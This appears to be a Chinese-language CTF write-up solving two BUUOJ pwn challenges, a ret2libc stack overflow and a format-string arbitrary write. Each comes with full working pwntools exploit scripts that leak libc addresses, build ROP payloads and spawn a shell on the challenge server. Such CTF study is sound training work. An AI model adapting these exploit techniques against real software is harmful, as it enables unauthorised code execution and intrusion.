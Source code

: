 # 诗乃今天Pwn了吗


## ret2libc

题目：ciscn_2019_c_1

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

分析程序，发现`encrypt`函数存在危险函数`gets`可以造成栈溢出。程序开了NX保护，没有现成可供使用的shell代码，考虑使用ret2libc

首先使用ROPgadget找到需要的gadget:`pop rdi; ret`和`ret`

`python ROPgadget.py --binary ciscn --only "pop|ret"`

```
Gadgets information
============================================================
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret
0x00000000004008ca : ret 0x2017
0x0000000000400962 : ret 0x458b
0x00000000004009c5 : ret 0xbf02

Unique gadgets found: 15
```

利用`encrypt`函数中的`puts`泄露出`puts`函数在内存中的地址，并重新调用执行`main`函数。

```python
pop_rdi_ret = 0x400c83
ret = 0x4006b9
start_addr = 0x400B28
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
p.recvuntil("choice!\n".encode())
p.sendline("1".encode())
p.recv()
payload = b"A" * 88 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(start_addr)
p.sendline(payload)
p.recvuntil(b'Ciphertext\n')
p.recvline()
puts_leak = u64(p.recvline()[:-1].ljust(8, b'\0'))
```

利用泄漏的地址寻找对应的`Libc`版本，并计算得到`libc`的加载地址和`system`函数、`/bin/sh`字符串对应地址，再次利用栈溢出漏洞得到shell

```python
libc = LibcSearcher('puts', puts_leak)
libcbase = puts_leak - libc.dump('puts')
bin_sh_addr = libcbase + libc.dump('str_bin_sh')
system_addr = libcbase + libc.dump('system')
payload = b"A" * 88 + p64(ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()
```

完整代码：

```python
from pwn import *
from LibcSearcher import *
elf = ELF("./ciscn")
p = remote("node4.buuoj.cn", 29518)
pop_rdi_ret = 0x400c83
ret = 0x4006b9
start_addr = 0x400B28
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
p.recvuntil("choice!\n".encode())
p.sendline("1".encode())
p.recv()
payload = b"A" * 88 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(start_addr)
p.sendline(payload)
p.recvuntil(b'Ciphertext\n')
p.recvline()
puts_leak = u64(p.recvline()[:-1].ljust(8, b'\0'))
p.recvuntil("choice!\n".encode())
p.sendline("1".encode())
p.recv()
libc = LibcSearcher('puts', puts_leak)
libcbase = puts_leak - libc.dump('puts')
bin_sh_addr = libcbase + libc.dump('str_bin_sh')
system_addr = libcbase + libc.dump('system')
payload = b"A" * 88 + p64(ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)
p.sendline(payload)
p.recv()
p.sendline(b"cat flag")
print(p.recv())
```

## 格式化字符串漏洞-任意地址写入

题目：[第五空间2019 决赛]PWN5

程序逻辑为向`0x804C044`写入随机数作为密码，输入密码正确反弹shell。

存在格式化字符串漏洞`printf(buf)`。

考虑利用格式化字符串漏洞修改`0x804C044`位置的值获得shell。

首先爆破一下偏移量

```python
from pwn import *
def pwn(payload):
	p = remote("node4.buuoj.cn", 29282)
	p.recv()
	p.sendline(payload)
	return p.recv()[6:-1]
auto = FmtStr(pwn)
offset = auto.offset
```

得到`offset=10`

利用格式化字符串漏洞将`0x804C044`位置的值修改为`0xcafe`

```python
offset = 10
p = remote("node4.buuoj.cn", 29282)
p.recv()
payload = fmtstr_payload(offset, {0x804C044 : 0xcafe})
p.sendline(payload)
p.recv()
p.sendline(str(0xcafe).encode())
p.interactive()
```

完整代码：

```python
from pwn import *
def pwn(payload):
	p = remote("node4.buuoj.cn", 29282)
	p.recv()
	p.sendline(payload)
	info = p.recv()[6:-1]
	return info

auto = FmtStr(pwn)
offset = auto.offset
p = remote("node4.buuoj.cn", 29282)
p.recv()
payload = fmtstr_payload(offset, {0x804C044 : 0xcafe})
p.sendline(payload)
p.recv()
p.sendline(str(0xcafe).encode())
p.recv()
p.sendline(b"cat flag")
print(p.recv())
```

## 在学了在学了

